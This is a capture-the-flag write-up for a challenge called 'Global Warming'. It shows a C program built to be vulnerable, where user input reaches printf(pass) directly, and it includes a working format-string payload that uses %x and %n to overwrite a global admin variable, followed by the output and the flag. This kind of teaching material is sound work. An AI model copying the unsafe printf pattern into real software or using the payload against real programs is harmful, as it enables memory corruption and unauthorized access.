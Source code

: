 # Global Warming

Author: [AJ1479](https://github.com/AJ1479)

## Description

String format exploit to overwrite global variable.

## Requirements

- Basic Knowledge of format string exploit.
- Docker: [Dockerfile](./Dockerfile)

## Sources

- [global-warming](./bin/global-warming): Binary

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>

int admin = 0;

void login(char username[10],char* pass)
{

	printf(pass);
	if(admin != 0)
	{
		system("cat flag.txt");
	}
	else 
	{
		printf("You cannot login as admin.");
	}
}

int main(int argc, char **argv)
{
	setbuf(stdout, NULL);
        setbuf(stdin, NULL);
        setbuf(stderr, NULL);
	login("User",argv[1]);
}
```

```
Greta Thunberg 1 Administration 0
```

## Exploit

The program has a global variable `admin`, the value of which needs to be changed. Looking at the program we see a printf statement, printing our input in `fgets`. Here, we need to use the string format exploit. We use `%x` as the format string input which returns values from the stack. We're also going to use the `%n` which writes the number of characters before the `%n` to the address just above(before) it in the stack. Also, memory addresses of global variables are stored in can be easily read from the `objdump` of the binary.
<br />

Steps to solve the challenge:
1) Find out the memory address of `admin` using the command `objdump -t <binary of file>` this is where we need to write a non-zero value.
2) Input a bunch of `%x`s to the program that will print values off of the stack.
3) If you print enough number of `%x `s (It's a good idea to put a space after the `%x` to make printed values more readable), you get a recurring pattern (something like 25207825 78252078) and you realise you're seeing the `%x`s (something you can probably figure out by the `20`s which stand for blank spaces).\
4) What you need to do is to ensure that the last byte you print is the memory address of `admin` as you want to modify the value stored there. You do this by using recognizable characters and some trial and error; changing the number of `%x `s
5) When you reach this point you can replace the last `%x ` with `%n ` which should overwrite the value of `admin` with some number (the number of characters printed before it) and give you the flag.
<br />

```bash
$ python2 -c "print '\x2c\xc0\x04\x08' + '%x '*11 + '%n '" | ./global-warming
,f7fe8a34 fbad2087 80491b2 f7f9de24 804c000 ffffd038 8049294 804a030 ffffcc30 f7f9e540 8049216  
csictf{n0_5tr1ng5_@tt@ch3d}
```

The flag is:

```
csictf{n0_5tr1ng5_@tt@ch3d}
```